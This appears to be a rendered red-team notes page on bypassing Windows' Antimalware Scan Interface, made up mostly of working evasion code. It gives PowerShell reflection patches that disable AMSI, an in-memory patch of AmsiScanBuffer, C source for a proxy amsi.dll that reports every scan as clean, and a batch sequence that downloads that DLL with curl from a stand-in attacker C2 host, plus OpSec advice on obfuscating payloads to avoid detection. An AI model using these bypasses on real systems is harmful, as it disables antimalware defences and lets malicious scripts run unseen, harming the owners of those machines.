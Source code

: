 ```yaml
---
title: AMSI
---
```


The *Antimalware Scan Interface* is used by endpoint protection to prevent PowerShell, VBScript, JScript and Office VBA macros from executing if they match known bad patterns.

> **OpSec:**
> The payloads below require obfuscation.
> Heavily obfuscated payloads are detected more frequently than payloads that are only slightly modified in the right places.

Patch AMSI in PowerShell with Matt Graebers reflection method.

~~~ ps1
$a = [Ref].Assembly.GetType('System.Management.Automation.AmsiUtils')
$b = $a.GetField('amsiInitFailed', 'NonPublic,Static')
$b.SetValue($null, $true)
$b.GetValue($null)
~~~

Variation for PowerShell 6.

~~~ ps1
$a = [Ref].Assembly.GetType('System.Management.Automation.AmsiUtils')
$b = $a.GetField('s_amsiInitFailed', 'NonPublic,Static')
$b.SetValue($null, $true)
$b.GetValue($null)
~~~

Variation from OSEP.

~~~ ps1
$a = [Ref].Assembly.GetTypes() | ?{$_.Name -like '*siUtils'}
$b = $a.GetFields('NonPublic,Static') | ?{$_.Name -like '*siContext'}
[IntPtr]$c = $b.GetValue($null)
[Int32[]]$d = @(0xff)
[System.Runtime.InteropServices.Marshal]::Copy($d, 0, $c, 1)
~~~

Patch AMSI at process-level with Rasta Mouse's [AmsiScanBufferBypass](https://github.com/rasta-mouse/AmsiScanBufferBypass).

~~~ powershell
Add-Type @'
using System;
using System.Runtime.InteropServices;
public class Win32 {
    [DllImport("kernel32")]
    public static extern IntPtr GetProcAddress(IntPtr hModule, string procName);
    [DllImport("kernel32")]
    public static extern IntPtr LoadLibrary(string name);
    [DllImport("kernel32")]
    public static extern bool VirtualProtect(IntPtr lpAddress, UIntPtr dwSize, uint flNewProtect, out uint lpflOldProtect);
}
'@
$a = [Win32]::LoadLibrary('amsi.dll')
$b = [Win32]::GetProcAddress('AmsiScanBuffer')
$c = 0
[Win32]::VirtualProtect($b, [uint32]3, 0x40, [ref]$c)
$d = [Byte[]] (0xB8, 0x57, 0x00, 0x07, 0x80, 0xC3)
[System.Runtime.InteropServices.Marshal]::Copy($d, 0, $b, 6)
[Win32]::VirtualProtect($b, [uint32]3, 0x20, [ref]$c)
~~~

Alternate `AmsiScanBuffer` at process-level from [senzee1984](https://github.com/senzee1984/Amsi_Bypass_In_2023/blob/main/Attack_AmsiScanBuffer.ps1).

Copy `powershell.exe` and a fake `asmi.dll` into a temporary directory ([source](https://twitter.com/eversinc33/status/1666121784192581633)).

~~~ bat
copy C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe .
copy C:\Windows\System32\amsi.dll amsiorg.dll
curl.exe -O https://c2.attacker.com/amsi.dll
.\powershell.exe
~~~

`./amsi.c` ([source](https://gist.github.com/eversinc33/beb43d05695de77a030c97ab769682ca)):

~~~ c
#pragma comment(linker, "/export:AmsiCloseSession=amsiorg.AmsiCloseSession,@1")
#pragma comment(linker, "/export:AmsiInitialize=amsiorg.AmsiInitialize,@2")
#pragma comment(linker, "/export:AmsiOpenSession=amsiorg.AmsiOpenSession,@3")
#pragma comment(linker, "/export:AmsiScanString=amsiorg.AmsiScanString,@5")
#pragma comment(linker, "/export:AmsiUacInitialize=amsiorg.AmsiUacInitialize,@6")
#pragma comment(linker, "/export:AmsiUacScan=amsiorg.AmsiUacScan,@7")
#pragma comment(linker, "/export:AmsiUacUninitialize=amsiorg.AmsiUacUninitialize,@8")
#pragma comment(linker, "/export:AmsiUninitialize=amsiorg.AmsiUninitialize,@9")
#pragma comment(linker, "/export:DllCanUnloadNow=amsiorg.DllCanUnloadNow,@10")
#pragma comment(linker, "/export:DllGetClassObject=amsiorg.DllGetClassObject,@11")
#pragma comment(linker, "/export:DllRegisterServer=amsiorg.DllRegisterServer,@12")
#pragma comment(linker, "/export:DllUnregisterServer=amsiorg.DllUnregisterServer,@13")

extern "C" __declspec(dllexport) HRESULT AmsiScanBuffer(HANDLE context, PVOID buffer, ULONG length, LPCWSTR name, LPVOID session, INT* result) {
    *result = 0;
    return S_OK;
}

BOOL DllMain(HMODULE module, DWORD reason, LPVOID reserved) {
    return true;
}
~~~

Untested tools:

- [AMSITools](https://github.com/mgeeky/penetration-testing-tools/tree/master/red-teaming/amsitools), pulls AMSI events to troubleshoot AMSI detections
- [AMSITrigger](https://github.com/rythmstick/amsitrigger), identify what part of a script triggers AMSI

References:

- [Antivirus Evasion: Tearing AMSI down with 3 bytes only](http://web.archive.org/web/20230111134440/https://www.blazeinfosec.com/post/tearing-amsi-with-3-bytes/), patching `AmsiOpenSession` doesn't result in a process-level AMSI bypass
- [New AMSI bypass using CLR hooking](http://web.archive.org/web/20221229140935/https://practicalsecurityanalytics.com/new-amsi-bypass-using-clr-hooking/)
- [AMSI unchained - Blackhat Asia 2022](./amsi-unchained-blackhat-asia-2022.pdf), examples for multiple bypass techniques
- [Amsi-Bypass-Powershell](https://github.com/S3cur3Th1sSh1t/Amsi-Bypass-Powershell), collection of AMSI bypass methods
